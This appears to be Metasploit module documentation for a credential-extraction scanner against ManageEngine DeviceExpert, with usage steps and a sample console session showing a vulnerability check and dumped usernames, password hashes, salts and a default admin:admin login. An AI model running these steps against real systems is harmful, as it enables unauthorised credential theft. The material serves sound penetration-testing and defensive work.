 ## Decription

  This module extracts usernames and salted MD5 password hashes
  from ManageEngine DeviceExpert version 5.9 build 5980 and prior.


## Vulnerable Software

  [DeviceExpert](http://www.manageengine.com/products/device-expert) is a
  web–based, multi-vendor network configuration and change management (NCCM)
  solution for switches, routers, firewalls and other network devices.

  This module has been tested successfully on DeviceExpert
  version 5.9.7 build 5970 on Windows XP SP3.

  Software download:

  * [5.8 build 5850](http://web.archive.org/web/20130123070454/http://www.manageengine.com/products/device-expert/download.html)
  * [5.9 build 5900](http://web.archive.org/web/20130304043822/http://www.manageengine.com/products/device-expert/download.html)
  * [5.9 build 5950](http://web.archive.org/web/20131029082827/http://www.manageengine.com/products/device-expert/download.html)


## Verification Steps

  1. Do: ```use auxiliary/scanner/http/manageengine_deviceexpert_user_creds```
  2. Do: ```set RHOSTS [IP]```
  3. Do: ```run```
  4. You should receive usernames and associated password hashes + salts


## Scenarios

  ```
  msf5 > use auxiliary/scanner/http/manageengine_deviceexpert_user_creds 
  msf5 auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > set rhosts 172.16.158.131
  rhosts => 172.16.158.131
  msf5 auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > check
  [+] 172.16.158.131:6060 - The target is vulnerable.
  [*] Checked 1 of 1 hosts (100% complete)
  msf5 auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > run

  [*] 172.16.158.131:6060 - Found weak credentials (admin:admin)

  ManageEngine DeviceExpert User Credentials
  ==========================================

   Username  Password  Password Hash                     Role           E-mail                Password Salt
   --------  --------  -------------                     ----           ------                -------------
   admin     admin     3a4ebf16a4795ad258e5408bae7be341  Administrator  noreply@zohocorp.com  12345678

  [*] Credentials saved in: /Users/jvazquez/.msf4/loot/20140926165907_default_172.16.158.131_manageengine.dev_118155.txt
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf5 auxiliary(scanner/http/manageengine_deviceexpert_user_creds) > creds 172.16.158.131
  Credentials
  ===========

  host            service           public  private  realm  private_type
  ----            -------           ------  -------  -----  ------------
  172.16.158.131  6060/tcp (https)  admin   admin           Password
  ```

